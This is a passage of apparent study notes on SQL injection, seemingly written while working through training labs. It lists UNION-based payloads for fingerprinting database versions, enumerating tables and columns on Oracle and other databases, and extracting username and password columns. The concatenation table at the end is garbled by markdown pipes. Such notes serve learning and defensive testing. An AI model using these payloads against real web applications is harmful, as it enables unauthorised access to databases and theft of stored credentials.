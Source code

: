 ```sql
'UNION SELECT @@version--
GET /filter?category='UNION+SELECT+@@version,NULL,NULL--
'UNION+SELECT+NULL,banner+FROM+v$version-- 
```

## Listing the contents of the databases

### Non-oracle
Every database have information_schema.tables to list all table in database

`SELECT * FROM information_schema.tables`

```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```


`SELECT * FROM information_schema.columns WHERE table_name = 'Users'`
```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```

example:

Extract tables: 
`'UNION+SELECT+TABLE_NAME,NULL+FROM+information_schema.tables--`

Extract columns:
`'UNION+SELECT+COLUMN_NAME,NULL+FROM+information_schema.columns+WHERE+table_name='users_yyifmy'--`

Extract data from column:
`'UNION+SELECT+password_epsfwo,username_bdsehe+FROM+users_yyifmy--`

### Oracle

You can list tables by querying all_tables:
`SELECT * FROM all_tables`

You can list columns by querying all_tab_columns:
`SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`
`'UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_VKXFMK'--`

## Retrieving multiple values within a single column

Use concatination to retrieve multiple values together within this single column.

| Database   | Syntax        |
| ---------- | ------------- |
| Oracle     | `'foo'        |  | 'bar'` |
| Microsoft  | `'foo'+'bar'` |
| PostgreSQL | `'foo'        |  | 'bar'` |
